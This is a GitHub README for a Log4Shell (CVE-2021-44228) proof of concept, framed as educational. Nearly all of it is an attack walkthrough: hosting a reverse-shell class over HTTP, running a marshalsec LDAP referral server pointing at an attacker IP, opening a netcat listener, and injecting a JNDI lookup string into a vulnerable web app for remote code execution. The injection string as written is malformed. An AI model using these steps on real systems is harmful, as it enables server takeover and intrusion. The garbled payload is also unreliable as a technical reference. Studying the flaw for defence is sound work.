 # Log4Shell-PoC
A Log4Shell Proof of Concept (PoC)

This repository contains a proof of concept (PoC) for the Log4Shell vulnerability (CVE-2021-44228), one of the most critical security issues of the modern internet, that affects Java Apache Log4j library through versions 2.0-2.14.0. Log4Shell allows trivial remote code execution which has generated significant attention in the security community. This PoC is provided for educational and testing purposes to help understand the vulnerability and its potential impact.

**Disclaimer:** This PoC should only be used in controlled environments for educational and defensive purposes. Unauthorized use of this PoC to exploit or cause harm is illegal and unethical.

This guide will explain how to set-up and execute a PoC, please use it responsibly.

1. Start Http server to host the ReverseShell.java that will be loaded in the vulnerable web application (SearchWeb). This can be done easily with python HTTP module as follows:
```
  python3 -m http.server 8000
```
2. Set-up and LDAP referral that will point to the Http server previosuly configured. LDAP by its own is not able to serve .java files, therefore LDAP requests will be redirected to our Http server so the ReverseShell.java can be delivered successfully. In order to set this up we can use the marshalsec utility provided at https://github.com/mbechler/marshalsec with the following command:
```
  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndiLDAPRefServer "http://192.168.1.2:8000/#ReverseShell"
```
Thiw will redirect all incoming requests to our LDAP to the ReverseShell.class resource hosted on the Http server.

3. Set-up a netcat listener on port 443 to await the connection from the reverse shell. For this, we can use the Netcat (nc) tool:
```
  nc -lvnp 443
```
4. Delivery of the attack vector: Now if we browse to the path /SearchWeb of our vulnerable application, we will see a search box. Whatever we submit in this search box will be logged by the application, therefore, we can introduce here the attack vector:
```
  ${jndi:ldap//192.168.1.2/ReverseShell)
```
After this text is sent, we will see our LDAP server has received an incoming request that has been forwarded to the Http server, and this has served the ReverseShell.class to the vulnerable application. Having a look at our netcat listener we see the incoming TCP connection from the IP of the web application, meaning we have gained RCE over the web application.
